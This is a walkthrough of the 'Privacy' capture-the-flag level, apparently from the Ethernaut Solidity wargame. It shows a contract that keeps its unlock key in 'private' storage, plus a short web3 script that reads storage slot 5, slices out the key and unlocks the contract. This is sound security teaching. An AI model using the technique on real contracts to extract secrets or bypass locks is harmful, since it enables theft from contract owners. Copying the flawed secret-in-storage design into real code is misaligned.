# Privacy

## Challenge Description

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## Challenge Solution Walkthrough

To find the password in this challenge, we need to analyze the `unlock()` function and retrieve the value stored in `bytes16(data[2])`. We can achieve this by using the `getStorageAt()` function to read the specific storage slot where the password is stored.

Here's an example of how to find and unlock the contract using the `getStorageAt()` function:

```javascript
// Find the password
const password = await web3.eth.getStorageAt(contract.address, 5);

// Slice the password to obtain the leftmost 16 bytes
const slicedPassword = password.slice(0, 34);

// Unlock the contract using the retrieved password
await contract.unlock(slicedPassword);

// Verify if the contract is unlocked
const isUnlocked = await contract.locked();
console.log("Contract unlocked:", !isUnlocked);
```

In the above code, we retrieve the value stored in the storage slot 5 (which corresponds to `data[2]`) using `web3.eth.getStorageAt()`. We then slice the retrieved password to obtain the leftmost 16 bytes.

After obtaining the password, we call the `unlock()` function of the contract, passing the sliced password as an argument. Finally, we verify if the contract is unlocked by checking the value of the `locked` state variable.

If the contract is successfully unlocked, the output will show `Contract unlocked: true`. Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
